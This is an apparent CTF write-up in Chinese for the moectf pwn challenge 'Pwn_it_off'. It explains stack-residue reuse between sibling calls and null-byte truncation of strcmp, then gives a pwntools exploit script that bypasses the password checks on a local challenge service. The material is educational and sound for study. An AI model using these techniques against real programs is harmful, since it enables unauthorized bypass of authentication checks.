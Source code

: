 # moectf Pwn_it_off

by Maple

***你真的理解栈了吗***

先介绍两个知识点

- 函数局部变量在函数返回时不会被清空，而是留在调用栈上原位置；函数调用时程序也不会主动清空先前同调用层级的函数残留的局部变量。
- `strcmp` 比对字符串，C 语言用 `'\x00'` 标志字符串末尾，同时 `strcmp` 字符串比对也会到此终止，从而绕过检查。

ida里查看各个函数，可以发现在`down`函数的功能是输出`flag`内容，但是在主函数中这个函数在`voice_pwd`和`num_pwd`之后，所以我们要想办法把这两个函数成功过掉

因为刚开始执行的那3个函数都没有参数调用，并且都是`main`函数的调用，所以这三个函数的栈底应该是一样的，也就是说之前函数执行留下的数据会被留在下一个函数的对应位置，如图

<img src="./images/d7e2c49ea284c357baab9a75bd83b9d9_720.jpg" alt="d7e2c49ea284c357baab9a75bd83b9d9_720" style="zoom: 67%;" />

觉得这张图应该很清楚了，不会的话来捶我

接下来是小细节，写在exp里了

exp:

```python
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',64393)
last_line = bytes()
while 1:
    line = p.recv()	# 持续接受数据
    if b'[Error]' in line:	# 遇到[Error]时停止接受
        break
    last_line = line	# 记录最后一行的数据

password = last_line[28:28+15]	# 字节序列的28开始往后顺15个截留下来
p.send(password+b'\x00'+p64(12345)[0:7])	# 在第16位截断，后面不比较了就，接着塞进去一个5位数切成7字节，留给v1[1]
p.sendline(b'12345')	# 输入v1[0]就好
p.interactive()
```

